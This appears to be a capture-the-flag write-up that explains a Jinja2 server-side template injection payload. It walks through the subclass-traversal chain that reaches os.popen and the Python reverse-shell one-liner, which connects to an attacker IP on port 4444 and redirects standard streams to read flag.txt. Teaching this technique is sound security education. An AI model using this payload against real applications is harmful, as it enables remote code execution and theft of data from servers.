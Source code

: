 
### **Breaking Down the Madness: Jinja2 RCE Payload Explained**

Alright, let’s take a step back because this payload looks like absolute chaos at first glance. If you're wondering, **"What the hell am I even looking at?"**, you're not alone. But don't worry, we’re gonna break it down **high-level style** so it actually makes sense.

#### **Step 1: What’s Happening Here?**

```python
{% for x in ().__class__.__base__.__subclasses__() %}
```

- This **loops through Python’s internal subclasses** to find something useful.
- Specifically, it's looking for a **class related to warnings**, because some warning-related classes expose **built-in functions** that can execute system commands.

#### **Step 2: Finding the Right Class**

```python
{% if "warning" in x.__name__ %}
```

- This **filters** for subclasses that contain `"warning"` in their name.
- The reason? There’s a sneaky way to **access Python’s built-in modules** through certain system warning classes.

#### **Step 3: Importing the OS Module & Running a Command**

```python
{{x()._module.__builtins__['__import__']('os').popen("python3 -c 'import socket,subprocess,os; ...
```

- **`__import__('os')`** dynamically imports the **OS module**, which lets us interact with the system.
- **`popen()`** is used to execute a command, in this case, a **Python one-liner reverse shell**.

#### **Step 4: What’s Actually Running?**

```python
python3 -c 'import socket,subprocess,os; 
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM); 
s.connect(("ip",4444)); 
os.dup2(s.fileno(),0); 
os.dup2(s.fileno(),1); 
os.dup2(s.fileno(),2); 
p=subprocess.call(["/bin/cat", "flag.txt"]);
```

Here’s what this is doing **step-by-step**:

1. **Creates a TCP socket** (`socket.socket(socket.AF_INET,socket.SOCK_STREAM)`)
2. **Connects to the attacker's machine** on `IP: 4444`
	1. Be sure to change the IP to your connected IP!
3. **Redirects stdin, stdout, and stderr** to the socket (`os.dup2()`)
4. **Runs a command** (`subprocess.call(["/bin/cat", "flag.txt"])`)

---